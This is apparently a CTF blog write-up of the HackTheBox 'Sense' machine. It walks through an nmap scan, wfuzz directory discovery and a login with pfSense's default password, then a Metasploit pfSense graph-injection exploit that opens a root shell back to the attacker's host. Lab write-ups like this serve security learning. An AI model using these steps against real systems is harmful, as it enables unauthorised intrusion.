 ```yaml
---
layout: post
title:  "HackTheBox - Sense"
date:   2020-1-2 00:10:00 +0000
categories: htb
permalink: /:categories/sense/
---
```

Sense was another box that you can smash out in 10 minutes you might have spare. Not much to be learnt from this one as it was very straight forward.

# Nmap scan
```
PORT STATE SERVICE VERSION
80/tcp open http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open ssl/https?
|_ssl-date: TLS randomness does not represent time
```
Navigating to the webserver we get shown a pfsense login page and not much else.

# Wfuzz results
```
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt --hc 404,301 https://10.10.10.60/FUZZ.txt
001197: C=200 9 L 40 W 271 Ch "changelog"
112347: C=200 6 L 12 W 106 Ch "system-users"
```
Changelog indicates the current version is vulnerable to something. system-users indicates the username 'rohit' and 'company-default' exist. Trying the username rohit and pfsense default password of 'pfsense' lets us in.

# Exploitation
Searching for an exploit with this platform returns a metasploit module that fits our needs, filling in the details we know we can run the exploit.
```
msf exploit(unix/http/pfsense_graph_injection_exec) > set RHOST 10.10.10.60
RHOST => 10.10.10.60
msf exploit(unix/http/pfsense_graph_injection_exec) > set USERNAME rohit
USERNAME => rohit
msf exploit(unix/http/pfsense_graph_injection_exec) > set LHOST tun0
LHOST => 10.10.14.6
msf exploit(unix/http/pfsense_graph_injection_exec) > exploit
```
<br>
The above exploit yields a root level shell so theres no need to extend privileges.


